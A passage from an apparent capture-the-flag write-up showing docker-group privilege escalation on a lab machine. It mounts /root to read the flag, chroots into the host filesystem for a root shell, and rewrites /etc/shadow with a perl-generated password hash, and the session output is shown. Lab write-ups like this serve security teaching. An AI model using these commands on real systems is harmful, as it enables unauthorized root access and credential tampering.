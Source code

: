 We mount `/root/` into our docker machine and that allow us to get the
`root.txt` flag.

    :::text
    luffy@cache:~/.plop$ docker run -v /root/:/mnt -it ubuntu
    docker run -v /root/:/mnt -it ubuntu
    root@884f0f892e34:/#ls /mnt
    ls /mnt
    root.txt
    root@884f0f892e34:/# cat /mnt/root.txt
    cat /mnt/root.txt
    da8b94288d919f4c6089fccdaa318832

We could also have mounted the whole file system `/` and get the content of
`/etc/shadow` to crack the root password. Or even rewrite the root password in `/etc/shadow`.

Another docker trick is to `chroot` into the mounted folder to get a root to
directly get a shell on the system: `docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh`

We can then generate a new password using `perl`

    :::text
    # perl -e 'print crypt("password","\$6\$saltsalt\$") . "\n"'
    perl -e 'print crypt("password","\$6\$saltsalt\$") . "\n"'
    $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/

And then put the new hash value in a new file `/etc/shadow.new`, check it and
then replace the original `/etc/shadow` file. One the new value is set we can
exit the docker and switch user to root.

    :::text
    # perl -pe 's|(root):(\$.*?:)|\1:\$6\$SALTsalt\$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:|' /etc/shadow > /etc/shadow.new
    perl -pe 's|(root):(\$.*?:)|\1:\$6\$SALTsalt\$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:|' /etc/shadow > /etc/shadow.new
    # cat /etc/shadow.new
    cat /etc/shadow.new
    root:$6$SALTsalt$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:18178:0:99999:7:::
    daemon:*:17941:0:99999:7:::
    bin:*:17941:0:99999:7:::
    sys:*:17941:0:99999:7:::
    sync:*:17941:0:99999:7:::
    games:*:17941:0:99999:7:::
    man:*:17941:0:99999:7:::
    lp:*:17941:0:99999:7:::
    mail:*:17941:0:99999:7:::
    news:*:17941:0:99999:7:::
    uucp:*:17941:0:99999:7:::
    proxy:*:17941:0:99999:7:::
    www-data:*:17941:0:99999:7:::
    backup:*:17941:0:99999:7:::
    list:*:17941:0:99999:7:::
    irc:*:17941:0:99999:7:::
    gnats:*:17941:0:99999:7:::
    nobody:*:17941:0:99999:7:::
    systemd-network:*:17941:0:99999:7:::
    systemd-resolve:*:17941:0:99999:7:::
    syslog:*:17941:0:99999:7:::
    messagebus:*:17941:0:99999:7:::